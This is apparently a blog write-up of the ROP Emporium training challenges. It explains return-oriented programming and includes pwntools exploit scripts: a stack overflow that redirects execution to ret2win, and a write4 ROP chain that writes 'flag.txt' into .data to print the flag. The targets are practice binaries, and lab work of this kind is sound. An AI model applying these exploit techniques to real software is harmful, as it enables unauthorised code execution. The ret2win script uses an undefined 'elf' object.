 ```yaml
---
title: "ROP Emporium Revisited"
categories: ["Hacking", "Binary Exploitation"]
tags: ["hacking", "pentesting", "pwntools", "Exploit Development"]
date: "2021-07-27"
type: "post"
weight: 400
keywords: "hacking rop pwntools"
---
```


## Overview



> ROP highlights a classical strategy across all facets of security exploitation, living off the land.



## ret2win #2

`ret2win` is the first challenge among the rop emporium suite and plays out like a classical [buffer overflow](../basic-stack-based-overflows). The only real takeaway from this challenge is to note the state of the memory protections enabled for the binary.


```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We see that the `NX` bit is **enabled** this is true of almost all ROP challenges since we wish to prevent execution off the stack with shellcode. We note however that we can still control the return pointer and thus redirect code execution. Our goal is to call the `ret2win` function, but why can we even call this function?

If you understand the notion off living off the land you will recognize the key utility of ROP and why it can be used to circumvent no execute (`NX`) memory protections. The instructions we execute *already exist within the program* after compilation.

In this case that code is the win function `ret2win` but there are many other instructions within the binary, some which are never even used by the program in its running lifetime ... 

Compilers are not perfect programs, and indeed `x86` as an instruction set has its oddities, they leave behind garbage instructions as well as carrying out other weird behavior. 

> These leftover instructions, often called 'gadgets', can be of great use to us.

They are an example of a [weird machine](https://en.wikipedia.org/wiki/Weird_machine). We will explore their utility in detail as we continue but for now know they exist alongside the functions and other instructions that make up the program.

With this understanding, we proceed by fuzzing the offset to the return pointer with cyclic (yes even tho it tells us the bytes to overwrite). We can then hook `ret2win` from the symbols table and use `fit/flat` to pad the offset to our packed address.

The exploit for the 32 bit binary (this is the track we will follow) is as follows.


```python
from pwn import *
proc = process('./ret2win32')

## get da banner
log.info('Receiving banner ...')

payload = fit({
    cyclic_find('laaa'): p32(elf.symbols['ret2win'])
})

proc.sendafter('> ', payload)
# shellit
proc.interactive()
```

## split

//TODO 


## write4


```python
    # ::::::::::: .data at this address is uninitialized ::::::::::
    
    #data_section = elf.get_section_by_name('.data').header.sh_addr
    
    # better way
    data_section = elf.symbols.data_start
    log.success(f".data starts @{hex(data_section)}")
    # :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::

    # :::::::::::::::::::::: resolve gadgets ::::::::::::::::::::::
    
    # pwntools hides some gadgets from us so we resolve via
    # function
    mov_gadget = elf.symbols['usefulGadgets']
    log.success(f"gadget: mov [edi], ebp; ret; @ {mov_gadget}")
    
    # this lookup fails if the list of registers to pop cannot 
    # be met
    pop_gadget = rop.search(0, ['edi', 'ebp'], 'regs').address
    log.success(f"pop gadget: pop edi; pop ebp; ret; @ {hex(pop_gadget)}")

    print("\n")
    log.info("::: Beginning write sequence for 'flag.txt' ::: \n")
    log.info("Writing .data address to edi, 'flag' to ebp ...")
    # :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::

    # :::::::::::::::::::::::: create chain :::::::::::::::::::::::
    rop.raw([
        pop_gadget,             # pop edi; pop ebp; ret;
        data_section,
        'flag',                 # write first 4 bytes of 'flag.txt'
        mov_gadget,             # mov [edi], ebp; ret;

        pop_gadget,             # pop edi; pop ebp; ret;
        data_section + 4,
        '.txt',                 
        mov_gadget              # mov [edi], ebp; ret;
    ])
    # printfile arg in .data
    rop.print_file(data_section)                     

    payload = fit({
        cyclic_find('laaa'): rop.chain()
    })

    # :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
    
    # shellit
    proc.sendlineafter('> ', payload)    
    proc.interactive()
```